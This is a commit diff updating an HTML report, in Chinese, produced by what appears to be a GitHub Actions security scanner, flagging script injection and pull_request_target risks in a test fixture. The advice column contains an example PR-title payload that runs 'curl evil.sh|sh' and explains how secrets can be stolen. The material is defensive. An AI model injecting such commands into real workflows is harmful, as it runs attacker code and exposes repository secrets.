

docs: 更新报告截图（core v0.4.2 渲染修复）

diff --git a/docs/report.html b/docs/report.html
@@ -68,18 +68,18 @@
         <td><span class="dot" style="--c:#ea580c"></span>高</td>
         <td><div class="t">run 里直接插值外部可控输入（脚本注入）</div><div class="src">GitHub Security Lab《Script injections in GitHub Actions》—— 攻击者可通过 PR 标题/分支名注入 shell 命令</div></td>
         <td><code>.github/workflows/bad.yml:15</code><div class="ev">run: | echo &quot;PR title: ${{ github.event.pull_request</div></td>
-        <td class="adv">${{ github.event.pull_request.title }} 这类值由**外部贡献者可控**。直接插进 run 里，等于让陌生人往你的 shell 里写字（比如标题里放 `&quot;; curl evil.sh|sh; &quot;`）。改成先写进 env: 再引用 $VAR。</td>
+        <td class="adv">${{ github.event.pull_request.title }} 这类值由<b>外部贡献者可控</b>。直接插进 run 里，等于让陌生人往你的 shell 里写字（比如标题里放 <code>&quot;; curl evil.sh|sh; &quot;</code>）。改成先写进 env: 再引用 $VAR。</td>
       </tr>
       <tr class="sev-medium">
         <td><span class="dot" style="--c:#ca8a04"></span>中</td>
         <td><div class="t">使用 pull_request_target 触发</div><div class="src">GitHub Docs — Events that trigger workflows: pull_request_target；GitHub Security Lab《Preventing pwn requests》</div></td>
         <td><code>.github/workflows/bad.yml:3</code><div class="ev">pull_request_target</div></td>
-        <td class="adv">pull_request_target 在**目标仓库上下文**运行，能拿到 secrets，且默认有写权限。若后续 checkout 了 PR 的代码（ref: github.event.pull_request.head.sha）并执行其中的脚本，外部贡献者可直接窃取 secrets。若只是打标签/评论、不 checkout PR 代码，则风险可控 —— 请人工确认。</td>
+        <td class="adv">pull_request_target 在<b>目标仓库上下文</b>运行，能拿到 secrets，且默认有写权限。若后续 checkout 了 PR 的代码（ref: github.event.pull_request.head.sha）并执行其中的脚本，外部贡献者可直接窃取 secrets。若只是打标签/评论、不 checkout PR 代码，则风险可控 —— 请人工确认。</td>
       </tr></tbody></table>
 
   <footer>
     <p>扫描范围：<code>tests/fixtures/fail/demo-project</code> · 1 个文件</p>
-    <p>规则库：— · 生成时间：2026-10-13 02:04:44</p>
+    <p>规则库：— · 生成时间：2026-10-13 02:06:19</p>
     <p></p>
   </footer>
 </div></body></html>
